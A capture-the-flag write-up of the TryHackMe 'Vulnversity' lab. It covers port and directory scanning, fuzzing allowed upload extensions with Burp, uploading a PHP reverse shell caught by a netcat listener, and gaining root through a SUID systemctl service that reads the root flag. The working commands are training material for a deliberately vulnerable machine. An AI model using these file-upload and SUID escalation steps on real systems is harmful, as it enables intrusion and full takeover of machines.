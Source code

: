 [![Needed-Burp](https://img.shields.io/badge/Needed-Burp-orange)](https://portswigger.net/burp)
[![Needed-GoBuster](https://img.shields.io/badge/Needed-gobuster-brightgreen)](https://github.com/OJ/gobuster)
[![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-netcat](https://img.shields.io/badge/Needed-netcat-lightgrey)](https://nc110.sourceforge.io/)

# Vulnversity

## Reconnaissance
### Port scanning
First step in every challenge is reconnaissance.<br>
We can find out which ports are open and which software is running on them using the program nmap with the `-sV` option (finds out the version of the programs listening on the  open ports):
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV $TARGET_IP
Host is up (0.052s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan we can see that there are several open ports, but we'll start with the http server running on port 3333 (as we will see it's actually vulnerable). Another useful information that we got through nmap is that the server is probably running Ubuntu, so we will have to exploit a Linux system.

### Port 3333: Website exploration
Opening on the browser the address `http://$TARGET_IP:3333` we obtain the homepage of a website. While we explore the surface through the browser we launch a dir scan with gobuster:
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://$TARGET_IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.26:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 15:15:53 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.132.26:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.132.26:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.132.26:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.132.26:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.132.26:3333/internal/]
```

We can see now a uncommon directory: `/internal`. Visiting it we get to a upload form `/internal/index.php`.<br>

Repeating the process with `/internal` we discover the subdirectory `/internal/uploads`.

## Gaining access
### Fuzz our way in
Trying to upload some random file as a test we notice that all downloaded files will be refused by the site. At this point we should fuzz the upload request and discover the accepted extensions.<br>
To do this we can use Burp Suite's intruder: intercepting an upload request we can send it to the intruder and add a list of items to test in sniper mode. The string to fuzz has to be delimited by the characters `§.ext§`.<br>
In our case the file extension list is given by the challenge creators and it's pretty short:
```
.php
.php3
.php4
.php5
.phtml
```

The request seen from the intruder should look like this:
![The intruder view](./burp_fuzz.png "The fuzz request from burp. Taken from TryHackMe")

All the requests will receive a 200 as response status, but only .phtml will have a different response length, so we can assume and then test that .phtml files can be uploaded.<br>

### Get a reverse shell
Since we can upload a code file why not try upload a [reverse shell](./php-reverse-shell.phtml)? Remember to change IP and port to match yours!<br>
Before upload we set our pc to listen on port 1234 with `netcat -lvnp 1234`, then we upload the reverse shell, open from browser `/internal/uploads` and select the reverse shell from the list of uploaded files. On the terminal with netcat we will find our shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.183.143] 48266
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:05:15 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can find out the computer user by visiting `/home`, which contains the home directories of the pc users. The user flag will be in `/home/bill/user.txt`.

## Privilege escalation
In linux there's a special type of file permission: SUID.
```
SUID mode gives the executing file his owners privileges, instead of the one of the runner; which means that if the owner is root, the executables will run with root privileges
```

Given that we need to search for SUID executables on the machine with the following command:
```
find / -perm -u=s -type f 2>/dev/null
```

Between this files theres `/bin/systemctl`, which is the executable responsible for starting, enabling and stopping the services on the machine.<br>
To read the root flag in `/root/root.txt` we can create and run a process which will read it while having root privileges and put it in a file.
```
www-data@vulnuniversity:/$ TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' >$TF 
www-data@vulnuniversity:/$ /bin/systemctl link $TF                                                                                              
Created symlink from /etc/systemd/system/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.M0ESakgCCs.service to /tmp/tmp.M0ESakgCCs.service.
www-data@vulnuniversity:/$ cat /tmp/output
*******************************
```

In the same way we got the flag we can get a root reverse shell!